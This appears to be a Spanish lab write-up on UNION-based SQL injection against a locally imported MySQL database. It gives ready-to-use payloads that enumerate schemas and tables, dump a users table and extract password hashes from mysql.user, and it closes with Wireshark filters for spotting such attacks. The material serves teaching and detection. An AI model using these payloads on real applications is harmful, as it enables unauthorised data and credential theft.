# Previo

Tiene que ser con un phpmyadmin antiguo.
Importamos la BBDD databases.sql


# Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


# Consulta que muestra todos los productos






Así descubrimos con la tabla que surte al formulario tiene 3 columnas.

Consulta SQL:
```
SELECT * from articulos where Nombre = '999' or '1'='1' UNION SELECT null, null, null from articulos #
```
Inyecciones que muestran todos los productos:
```
999' or '1'='1' UNION SELECT null, null, null from articulos #
999' or '1'='1' UNION SELECT * from articulos #
```




# Muestra el mensaje “Hola mundo” usando SQL Injection
Consulta SQL:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, null, 'Hola mundo' from dual #
```
Inyección:
```
999' UNION SELECT null, null, 'Hola mundo' from dual #
```



# Datos de todas las bases de datos, tablas y columnas de MySQL
Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name =
information_Schema.columns.table_name;#
```
Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```



# Todas las bases de datos y sus tablas de MySQL
Inyección SQL →
```
999' UNION select null, table_schema,table_name FROM information_Schema.tables;#
```
Obtenemos resultados del nombre de la base de datos con la información de sus columnas→


Vemos otra base de datos con la información de sus columnas dentro de mysql→



# Todos las columnas de MySQL
Inyección SQL →
```
999' UNION select null, table_name, column_name FROM information_Schema.columns;#
```
Muestra el nombre de la tabla y todas sus columnas. Vemos en concreto los resultados en las tablas usuarios y artículos →



# Mostrar todos los datos de la tabla "demos.usuarios"
```
999' UNION SELECT * from demos.usuarios #
```



# Obtener las contraseñas de la BD
```
999' UNION ALL SELECT null, user,password FROM mysql.user;#
```



# Consultar el tipo y la versión de la base de datos
```
999' UNION SELECT null, null, @@version #
```



# Todas las tablas de una BD concreta
```
999' UNION SELECT null, null, TABLE_NAME FROM information_schema.tables WHERE table_schema = 'demos'#
```



# Todos los campos de una tabla concreta
Consulta mysql que devuelve el nombre de las columnas de una tabla de la BD:
```
SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos'
```
Consulta para realizar la inyección:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```
Inyección:
```
999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```



# Análisis del tráfico con Wireshark
## Filtrar Solicitudes HTTP con Posibles Inyecciones SQL 
Aplicamos un filtro en wireshark para descubir el ataque de sql injection:
```
http.request.uri contains "SELECT" || http.request.uri contains "UNION" || http.request.uri contains "DROP" || http.request.uri contains "OR '1'='1'"
```



## Filtrar por Códigos de Estado HTTP Específicos
A menudo, una inyección SQL fallida resultará en códigos de estado de error HTTP, como 500 (Error Interno del Servidor). Puedes filtrar estos códigos de estado:
```
http.response.code == 500
```
Este filtro captura respuestas con el código de estado 500, lo que podría indicar un error en la ejecución de una consulta SQL, posiblemente debido a una inyección SQL.

## Filtering for Web Traffic
The expression http.request reveals URLs for HTTP requests, and tls.handshake.type eq 1 shows domain names used in HTTPS or SSL/TLS traffic.

For web traffic generated by Windows hosts, results from this filter include HTTP requests over UDP port 1900. This HTTP traffic is Simple Service Discovery Protocol (SSDP). SSDP is used to discover plug-and-play devices and is not associated with normal web traffic. We can exclude SSDP traffic in our results by modifying our filter expression to:
```
(http.request or tls.handshake.type eq 1) and !(ssdp)
```

